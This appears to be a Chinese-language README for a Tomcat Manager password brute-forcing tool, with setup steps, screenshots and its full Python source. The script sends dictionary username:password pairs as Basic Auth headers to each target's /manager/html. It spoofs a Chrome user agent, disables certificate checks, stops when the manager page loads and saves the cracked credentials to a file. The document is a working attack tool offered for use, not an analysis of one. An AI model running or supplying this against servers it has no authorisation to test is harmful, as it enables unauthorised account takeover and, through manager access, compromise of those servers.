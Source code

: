 ## 配置
url.txt填上你要爆破的tomcat url
![image.png](https://cdn.nlark.com/yuque/0/2023/png/12847038/1693473065979-217ab2ce-3c4a-4bf8-b74c-70ed526cba77.png#averageHue=%23d2ab70&clientId=u4628ae19-ad0e-4&from=paste&height=269&id=uddf2da0b&originHeight=336&originWidth=817&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26368&status=done&style=none&taskId=u755509ca-76f7-4af6-a096-39e4fb1e8e5&title=&width=653.6)
爆破字典可以自行增加
![image.png](https://cdn.nlark.com/yuque/0/2023/png/12847038/1693473238692-b92f4e45-72d5-4d1b-a984-cfb1ad2ee689.png#averageHue=%23292928&clientId=u4628ae19-ad0e-4&from=paste&height=606&id=uf904307f&originHeight=758&originWidth=913&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47833&status=done&style=none&taskId=u91c7156b-39d9-435d-b6c5-33bfef0ac29&title=&width=730.4)
## 示例
爆破成功会自动停止，并且将结果写入到txt中
![image.png](https://cdn.nlark.com/yuque/0/2023/png/12847038/1693472922665-9a5c56df-7581-4a03-a002-9f74a0139f3c.png#averageHue=%232c2b2b&clientId=u4628ae19-ad0e-4&from=paste&height=221&id=uedefcf89&originHeight=276&originWidth=1141&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=58695&status=done&style=none&taskId=u3f560525-7421-47a5-ae7f-4409da010ae&title=&width=912.8)
爆破成功会自动停止
## 代码
```python
# -*- coding: utf-8 -*-
import time

import requests
import base64
import yaml
from cprint import cprint
import urllib3
urllib3.disable_warnings()
uri="/manager/html"

def read_config_file(config_file):
    with open(config_file, 'r') as file:
        config = yaml.safe_load(file)
    return config

def check_files_for_keywords(config):
    keywords = config['Keywords']
    return keywords

# 用法示例
config_file = 'userpwddic.yaml'  # 替换为你的配置文件路径
config = read_config_file(config_file)
keys=check_files_for_keywords(config)

def run():
    urllist = open("url.txt")
    urllist = urllist.readlines()
    for url in urllist:
        url = url.replace("\n", "")
        all = url + uri
        for key in keys:
            userpwd = base64.b64encode(key.encode('utf-8')).decode('utf-8')
            burp0_headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5666.197 Safari/537.36",
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                "Accept-Encoding": "gzip, deflate",
                "Connection": "close",
                "Upgrade-Insecure-Requests": "1",
                "sec-ch-ua-platform": "\"Windows\"",
                "sec-ch-ua": "\"Google Chrome\";v=\"113\", \"Chromium\";v=\"113\", \"Not=A?Brand\";v=\"24\"",
                "sec-ch-ua-mobile": "?0",
                f"Authorization": f"Basic {userpwd}"}
            try:
                req = requests.get(all, headers=burp0_headers, verify=False, timeout=3)
                time.sleep(0.8)
                userpwd_decode = base64.b64decode(userpwd).decode('utf-8')
                if req.status_code ==200 and "Tomcat Web Application Manager" in req.text:
                    cprint.info(f"[+]{all}爆破成功,用户名密码为：{userpwd_decode}，并且写入bp_success.txt")
                    bp_yes = f"{url}\t{userpwd_decode}"
                    f_success = open('bp_success.txt', 'a+')
                    f_success.write(bp_yes + '\n')
                    f_success.close()
                    break #爆破成功会停止
                else:
                    cprint.err(f"[-]{all}用户名密码为{userpwd_decode}爆破失败")
            except:
                cprint.err(f"{url}[-]请求异常")
            # one_tomcatbp(all,encoded_content)
if __name__=="__main__":
    run()


```
